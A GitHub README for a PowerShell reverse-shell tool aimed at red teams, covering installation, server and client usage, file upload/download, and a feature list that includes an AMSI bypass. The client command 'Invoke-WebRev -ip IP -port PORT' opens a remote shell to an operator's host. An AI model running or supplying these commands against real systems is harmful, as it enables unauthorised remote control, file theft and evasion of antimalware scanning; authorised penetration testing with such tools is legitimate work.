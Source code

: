 Powershell HTTP/S Reverse Shell
------------

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol.

<p align="center"><img width=400 alt="HTTP-revshell" src="https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/images/logo.png"></p>

Installation
------------

```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

server-multisession.py - server multisession
------------

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

server.py - server unisession
------------

Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

Invoke-WebRev.ps1 - client
------------

Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

Extra functions
------------

```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

Features
------------

    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass
    - Multiple sessions [only server-multisession.py]
    - Autocomplete PowerShell functions (optional) [only server.py]

TODO
------------

    - ??
    
